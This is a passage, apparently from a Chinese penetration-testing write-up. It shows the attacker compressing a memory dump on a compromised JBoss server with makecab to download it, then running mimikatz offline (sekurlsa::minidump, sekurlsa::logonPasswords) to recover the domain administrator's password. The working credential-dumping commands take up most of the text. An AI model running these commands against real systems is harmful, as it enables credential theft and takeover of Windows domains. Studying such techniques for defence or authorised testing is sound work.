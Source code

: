 利用windows自带的压缩文件下载回本地

```plain
makecab c:\jboss\bin\1.dmp  1.zip
```

[![](assets/1698897116-3285a7fcd04c710fffc7ab6cf31c402e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114511-23979f48-a31d-1.png)

看到压缩后的大小还是小很多的，下载回来的速度也会更快

[![](assets/1698897116-5dfac4ee6a79deb830f433b012fcbdf0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114532-3081db88-a31d-1.png)

mimikatz离线读取得到域管Administrator的密码

```plain
mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

[![](assets/1698897116-8ed40fb45cd05d2358a34a2712c24f88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114559-40a9b742-a31d-1.png)
